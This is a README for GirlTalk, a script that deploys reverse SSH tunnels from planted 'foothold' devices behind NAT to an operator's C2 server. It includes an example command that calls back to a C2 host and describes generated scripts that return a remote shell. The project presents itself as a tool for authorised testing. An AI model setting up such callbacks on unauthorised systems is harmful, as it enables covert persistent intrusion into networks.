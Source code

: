 # README #
![Girltalk](/images/E3kGRY7WEAoMgMS.jpg)

GirlTalk is a script for rapidly deploying reverse SSH tunnels to remotely positioned devices.

### Updates ###
* Added multi-user support
* Scripting options to allow fine-tuning & easier operation
* Girltalk now supports AWS C2 deployments with the -a option

### NOTE! ###
This tool is freely licensed but I do not take any responsibility for whatever you choose to do with this.
Therefore, only use this tool in association with systems and networks you have explicit permission to operate on!

### What is this repository for? ###

The intent behind GirlTalk is to utilize as much native functionality as possible for creating reverse SSH tunnels.
By using native functionality, we can simplify the deployment of droppable devices. A side effect of this is that Girltalk is easily auditable.
Girltalk will give operators a route to a deivce that is not easily accessible, such as when a device is behind Network Address Translation (NAT).

### USAGE ###
Girltalk is currently compatible with the following options:
Key/Cert Mode options:
  -a	  Boolean option for keyed C2 infrastructure (This option has been tested with AWS as the C2)
  -k    Full path of SSH key

Password Mode options:
  -c    C2 host
  -u	  C2 username
  -l    Local username to use

usage:	 girltalk.sh -c <C2 hostname/IP> -l <local_username> -u <C2_username>
example: girltalk.sh -c host.aws.com -u ubuntu -l hatchetface -a -k ~/.ssh/amazon-keypair.pem

### How does it work? ###
Girltalk takes advantage of the standard functionality of openssh, but scripts out the process of orchestrating the connection between the "foothold" host to be deployed behind
NAT and the control infrastructure operators have configued.
![example diagram](/images/diagram.png)

### How do I get set up? ###
To get started, run girltalk.sh on the host you wish to have call back to your C2. Select all appropriate flags and include relevant info for contacting the C2 server.
If you have an AWS server acting as your C2, you should make sure that the -a option is selected.

Girltalk will place an access script onto the C2 host called 'hmu_user.sh'. Running this newly created script will transfer local ssh keys back to the foothold host and
immediately return a shell for the foothold device.

### Connecting to the deployable host ###
When girltalk.sh is done, a new script will be made available in the root directory of the C2 host called 'hmu.sh'. Run this script from the C2 host, input the password for
the account specified during girltalk runtime and you should have a shell on the remotely deployed foothold host without needing any unknown routing information from the foothold
host!